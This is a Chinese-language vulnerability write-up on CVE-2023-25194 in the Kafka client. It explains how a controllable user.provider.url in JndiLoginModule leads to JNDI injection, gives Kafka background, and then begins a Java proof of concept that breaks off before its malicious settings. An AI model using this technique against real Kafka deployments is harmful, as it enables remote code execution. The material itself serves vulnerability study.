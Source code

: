 JAAS 官方文档

[https://docs.oracle.com/javase/8/docs/technotes/guides/security/jaas/JAASRefGuide.htm](https://docs.oracle.com/javase/8/docs/technotes/guides/security/jaas/JAASRefGuide.html)

[https://docs.oracle.com/javase/7/docs/technotes/guides/security/jaas/tutorials/LoginConfigFile.html](https://docs.oracle.com/javase/7/docs/technotes/guides/security/jaas/tutorials/LoginConfigFile.html)

 `sasl.jaas.config` 的格式如下

```ini
loginModuleClass controlFlag (optionName=optionValue)*;
```

其中的 loginModuleClass 代表认证方式, 例如 LDAP, Kerberos, Unix 认证

JDK 自带的 loginModule 位于  `com.sun.security.auth.module`

![image-20230509204023850](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305092040900.png)

其中的 JndiLoginModule 原本是为了支持以 JNDI 的方式查询各种 Service Provider 从而进行身份认证, 但是由于在认证过程中的 `user.provider.url` 参数可控, 导致可以进行任意 lookup, 引发 JNDI 注入

在给出 PoC 之前, 先来了解一下 Kafka 的相关概念

参考文章: [https://segmentfault.com/a/1190000021138998](https://segmentfault.com/a/1190000021138998)

Kafka 本质上是一个分布式, 订阅式, 支持流式处理的消息队列, 通过 ZooKeeper 管理集群, 几个基本概念如下

- 消息: Kafka 中的数据单元, 也被称为记录, 类似于数据表中某一行的记录
- 主题: 消息的种类称为主题 (Topic), 相当于对消息进行分类, 类似数据库中的表
- 生产者: 向主题发布消息的客户端应用程序称为生产者 (Producer), 生产者用于持续不断的向某个主题发送消息
- 消费者: 订阅主题消息的客户端程序称为消费者 (Consumer), 消费者用于处理生产者产生的消息
- Broker: 一个独立的 Kafka 服务器就被称为 Broker, Broker 接收来自生产者的消息, 为消息设置偏移量, 并提交消息到磁盘保存

Kafka 的四个核心 API

- Producer API: 它允许应用程序向一个或多个 topics 上发送消息记录
- Consumer API: 允许应用程序订阅一个或多个 topics 并处理为其生成的记录流
- Streams API: 它允许应用程序作为流处理器, 从一个或多个主题中消费输入流并为其生成输出流, 有效的将输入流转换为输出流
- Connector API: 它允许构建和运行将 Kafka 主题连接到现有应用程序或数据系统的可用生产者和消费者. 例如 关系数据库的连接器可能会捕获对表的所有更改

本文中提到的 CVE-2023-25194 为 Kafka Client 的漏洞, Kafka Client 的作用就是将某个服务作为生产者或消费者连接到 Kafka Server, 然后不断发送/接收消息并进行后续处理

因为 Kafka 支持配置 JAAS 认证, 所以 Client 要想连接到 Server, 就也必须要先配置与 Server 一致的 JAAS Module, 如果这时候将 Module 指定为 JndiLoginModule, 同时配置恶意的 `user.provider.url`, 就可以在向 Server 发起连接之前, 在 Client 端引发 JNDI 注入

PoC 如下

```java
import org.apache.kafka.clients.consumer.KafkaConsumer;
import org.apache.kafka.clients.producer.KafkaProducer;

import java.util.Properties;

public class Demo {
    public static void main(String[] args) throws Exception {
        Properties properties = new Properties();
        properties.put("bootstrap.servers", "127.0.0.1:1234");
//         for KafkaProducer
//        props.put("key.serializer", "org.apache.kafka.common.serialization.StringSerializer");
//        props.put("value.serializer","org.apache.kafka.common.serialization.StringSerializer");
//         for KafkaConsumer
        properties.put("key.deserializer", "org.apache.kafka.common.serialization.StringDeserializer");
        properties.put("value.deserializer","org.apache.kafka.common.serialization.StringDeserializer");

        properties.put("sasl.mechanism", "PLAIN");
        properties.put("security.protocol", "SASL_SSL");
```